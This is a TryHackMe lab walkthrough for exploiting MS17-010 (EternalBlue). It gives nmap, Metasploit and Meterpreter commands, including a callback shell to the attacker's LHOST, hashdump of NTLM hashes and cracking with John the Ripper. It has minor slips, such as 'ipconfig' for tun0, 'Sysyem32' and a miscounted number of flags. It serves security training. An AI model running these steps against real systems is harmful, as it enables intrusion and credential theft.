

# 🔓 EternalBlue - TryHackMe Walkthrough

Welcome to the complete walkthrough of the [EternalBlue](https://tryhackme.com/room/eternalblue) room on TryHackMe.  
This room demonstrates how to exploit **MS17-010 (EternalBlue)** on a vulnerable Windows machine.

---

## 🧠 Room Overview

> EternalBlue is a critical SMBv1 vulnerability used in real-world ransomware attacks such as WannaCry.  
> This walkthrough guides you through enumeration, exploitation, and post-exploitation steps.

---

## 🧭 Table of Contents

- [Room Overview](#room-overview)
- [Step 1: Enumeration](#step-1-enumeration)
- [Step 2: Exploitation with Metasploit](#step-2-exploitation-with-metasploit)
- [Step 3: Post-Exploitation](#step-3-post-exploitation)
- [Flags](#flags)
- [Final Thoughts](#final-thoughts)
- [References](#references)
- [License & Contribution](#license--contribution)

---

## 📡 Step 1: Enumeration

### 🔍 Nmap Full Scan

```bash
nmap -p- -sV -T4 -A <target-ip>
```


The Nmap scan shows that port 445 is open, indicating SMB service — a potential target for the **MS17-010 (EternalBlue)** exploit.

## ⚔️ Step 2: Exploitation with Metasploit

We will now exploit the target using the **MS17-010 (EternalBlue)** vulnerability via Metasploit.

### 🧩 Launch Metasploit
Start Metasploit Framework:

```bash
msfconsole
```


Once inside Metasploit, search for the exploit module:

```bash
search eternalblue
```


select the first one using
```bash
use 0
options
```


Here Rhost is blank so we can give rhosts by
```bash
set RHOSTS <target ip>
```
Lhost is our system ip, so we have to change it to our vpn ip

For VPN ip, take a new terminal and type
```bash
ipconfig
```
take the ip in tun0 and set it to lhost
```bash
set LHOST <vpn ip>
```


Now the ip is Assigned and Ready for Exploit
```bash
exploit
```


## 🧪 Step 3: Post-Exploitation

Once the **EternalBlue (MS17-010)** exploit succeeds, we get a **Meterpreter session** — a powerful post-exploitation shell provided by Metasploit.

---

### 🖥️ Verify Access and System Info

Check system information of the victim machine:

```bash
meterpreter > pwd
```
### 🔐 Dumping and Cracking Password Hashes

With a Meterpreter session active, we can attempt to dump the user password hashes.

First, try using the built-in hash dumping command:

```bash
meterpreter > hashdump
```

This may return something like:


📝 Save Hashes to a File
Copy and paste the output into a text file on your local machine, e.g., ```pass.txt.```


🔓 Crack Hashes with John the Ripper
Use the ```rockyou.txt``` wordlist to crack NTLM hashes:
```bash
john pass.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
```


## 🏳️ Flags

During post-exploitation, we discovered two flags in the victim's system that confirm successful access and lateral movement.

---

### 🏁 Flag 1: Local Access Confirmation

We need to navigate to the root `C:\` directory and locate the `flag1.txt` file.

```bash
meterpreter > cd ../../
```
List files:

```bash
meterpreter > ls
```


Read the contents of the flag:
```bash
meterpreter > cat flag1.txt
```


### 🏁 Flag 2: Deeper System Access

Flag 2 is usually found under system32 directory, such as: `C:\Windows\System32\config\flag2.txt`.

Command:
```bash
meterpreter > cd C:\\Windows\\Sysyem32\\config
meterpreter > cat flag2.txt
```


### 🏁 Flag 3: User-Level Document Discovery

Flag 3 is usually found under a user directory, such as: `C:\Users\jon\Documents\flag3.txt`

Command:
```bash
meterpreter > cd C:\\Users\\jon\\Documents
meterpreter > ls
meterpreter > cat flag3.txt
```


## 🧠 Final Thoughts

This TryHackMe room demonstrated how a critical vulnerability like **MS17-010 (EternalBlue)** can be used to gain full control over a Windows 7 system.

We went through:

- Scanning the machine using `nmap`  
- Using **Metasploit** to exploit the EternalBlue vulnerability  
- Gaining a **Meterpreter shell** and escalating privileges  
- Navigating the system and retrieving **three flags**  
- Dumping and cracking **password hashes**  
- Exploring both **system-level and user-level data**

This walkthrough reinforces the importance of:

- Keeping systems patched (MS17-010 is from 2017!)  
- Disabling deprecated services like SMBv1  
- Monitoring privilege escalation paths in Windows environments

> 🛡️ **Disclaimer:** This exercise was performed in a legal, sandboxed environment (TryHackMe). Never attempt exploitation without explicit permission.

## 📚 References

- [TryHackMe - EternalBlue Room](https://tryhackme.com/room/blue)  
  Official room page used for the walkthrough.

- [Microsoft Security Bulletin MS17-010](https://msrc.microsoft.com/update-guide/vulnerability/MS17-010)  
  Official Microsoft documentation detailing the SMBv1 vulnerability.

- [Metasploit Framework Documentation](https://docs.metasploit.com/)  
  Complete documentation for using and extending Metasploit.

- [John the Ripper - Openwall](https://www.openwall.com/john/)  
  Tool used for password hash cracking.

- [Nmap Documentation](https://nmap.org/book/man.html)  
  Official documentation for network scanning.

> 📌 All tools and techniques were used in a legal, educational environment.

## 📄 License & Contribution

### 📜 License

This project is licensed under the [MIT License](https://opensource.org/licenses/MIT).  
You are free to use, modify, and distribute this documentation for educational or ethical cybersecurity purposes — with appropriate credit.

> ⚠️ Unauthorized exploitation of systems without permission is illegal and unethical. Always act responsibly.

---

### 🤝 Contribution

Contributions are welcome!

If you'd like to:

- Improve explanations or commands
- Add missing steps or screenshots
- Translate this walkthrough
- Fix formatting or typos

Feel free to open a pull request or raise an issue.

---

If this helped you, a ⭐️ on the repo would be awesome!
